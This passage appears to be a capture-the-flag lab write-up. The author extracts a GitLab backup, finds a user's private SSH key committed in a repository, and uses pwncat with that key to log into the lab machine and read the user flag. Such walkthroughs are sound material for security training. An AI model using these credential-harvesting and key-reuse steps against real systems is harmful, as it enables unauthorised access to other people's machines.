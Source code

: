 	  │           └── 62
	  │               ├── 2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3
	  |               └── 2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3.bundle
	  └── uploads.tar.gz

* there are bunch of files with 2 gitlab repos and while i run the `gitlab-backup` command i see that it backup to dexter repos from gitlab -

	  * dexter/securewebsite (@hashed/2c/62/2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3) ... [DONE]
	  * dexter/securedocker (@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7) ... [DONE]

* after git clone both bundle files -

	  ❯ git clone 19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7.bundle
	  Cloning into '19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7'...
	  Receiving objects: 100% (10/10), done.

	  ❯ git clone 2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3.bundle
	  Cloning into '2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3'...
	  Receiving objects: 100% (66/66), 7.21 MiB | 75.37 MiB/s, done.
	  Resolving deltas: 100% (5/5), done.

* when tree the cloned dirs i found ssh folder inside dexter dir -
```diff
❯ tree -a @hashed
@hashed
├── 19
│   └── 58
│       ├── 19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7
│       │   ├── create_gitlab.sh
│       │   ├── dexter
│       │   │   ├── recipe.url
│       │   │   ├── .ssh
│       │   │   │   ├── authorized_keys
+       │   │   │   └── id_rsa
<snippet>
52 directories, 112 files
```
* find dexter ssh key

## ssh USER:dexter

```diff
❯ pwncat -i ./id_rsa dexter@10.10.10.216
[23:43:42] warning: 10.10.10.216: no working persistence methods found                                                                                                        connect.py:222
[23:43:53] new host w/ hash ae368be9697cee6ab2cd4190bba7e71b                                                                                                                   victim.py:321
[23:44:12] pwncat running in /usr/bin/bash                                                                                                                                     victim.py:354
[23:44:18] pwncat is ready 🐈                                                                                                                                                  victim.py:771
[23:44:27] user not found in database; not storing password                                                                                                                   connect.py:348
(remote) dexter@laboratory:/$ id
+uid=1000(dexter) gid=1000(dexter) groups=1000(dexter)
(remote) dexter@laboratory:/$ cd
+(remote) dexter@laboratory:/home/dexter$ cat user.txt
23fa0c2d************************
```
